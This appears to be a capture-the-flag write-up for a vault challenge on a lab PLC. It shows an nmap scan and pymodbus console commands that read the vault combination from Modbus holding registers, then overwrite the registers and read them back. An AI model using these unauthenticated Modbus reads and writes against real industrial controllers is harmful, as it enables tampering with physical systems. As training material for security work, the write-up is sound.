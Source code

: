 ## Lockbus

The attacker is tasked to read the combination of a vault. We begin by scanning
the target:

```
Nmap scan report for 172.20.99.99
Host is up (0.0036s latency).
Not shown: 65534 closed tcp ports (reset)
PORT    STATE SERVICE
502/tcp open  mbap
MAC Address: 00:0C:29:7F:FE:CB (VMware)
```

The host has Modbus accessible. Modbus is a device agnostic protocol for
querying and modifying the state of a PLC. The vault door is likely storing
the combination in its holding registers then comparing the combination
against some input from a peripheral. Therefore, we should try read the holding
registers from the PLC.

A convenient client for this task is [pymodbus](https://github.com/pymodbus-dev/pymodbus)
because it bundles a Python API and a REPL client for issuing Modbus commands.

We want to read the first 8 holding registers because the flag format is
`bcde{XXXXXXXX}` for this task (8 digits = 8 registers).

```
$ pymodbus.console tcp --host 172.20.99.99 --port 502
...
> client.connect
true

> client.read_holding_registers address 0 count 8
{
    "registers": [ 5, 7, 1, 8, 3, 2, 4, 6 ]
}
```

### Part 2

This time the vault changes the combination every 30s. We have to modify the
current combination then read the combination back before it resets. We can
accomplish this with pymodbus again by issuing a readwrite Modbus command to the
holding registers. This command will write values to the holding registers then
read the registers back to validate the write. Then we can read the same
holding registers to acquire the combination.

```
$ pymodbus.console tcp --host 172.20.99.99 --port 502
...
> client.connect
true

> client.readwrite_registers read_address 0 read_count 8 write_address 0 values 0,0,0,0,0,0,0,0
{
    "registers": [ 0, 0, 0, 0, 0, 0, 0, 0 ]
}

> client.read_holding_registers address 0 count 8
{
    "registers": [ 4, 5, 1, 7, 8, 2, 3, 6 ]
}
```
